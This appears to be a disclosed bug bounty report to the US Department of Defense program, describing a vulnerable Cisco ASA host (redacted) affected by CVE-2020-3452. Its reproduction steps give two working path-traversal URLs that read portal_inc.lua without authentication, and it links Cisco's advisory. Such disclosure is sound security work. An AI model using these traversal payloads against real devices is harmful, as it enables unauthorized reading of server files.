 # [CVE-2020-3452] Unauthenticated file read in Cisco ASA

## Report Details
- **Report ID**: 1555021
- **URL**: https://hackerone.com/reports/1555021
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-29T22:49:28.276Z
- **Disclosed**: 2022-05-12T20:02:41.634Z

## Reporter
- **Username**: b4dc4t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
i found out that https://█████████/ was vulnerable to CVE-2020-3452

The IP has a SSL certificate pointing to █████████
curl -kv https://██████████/ 

Output
```
Server certificate:
*  subject: C=US; ████.mil
```

## Impact

Anyone can read any file present on the server.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3452

## Steps to Reproduce
You can test it by visiting the URL:
1. https://██████████/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
2. https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

## Suggested Mitigation/Remediation Actions
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86



## Attachments
No attachments
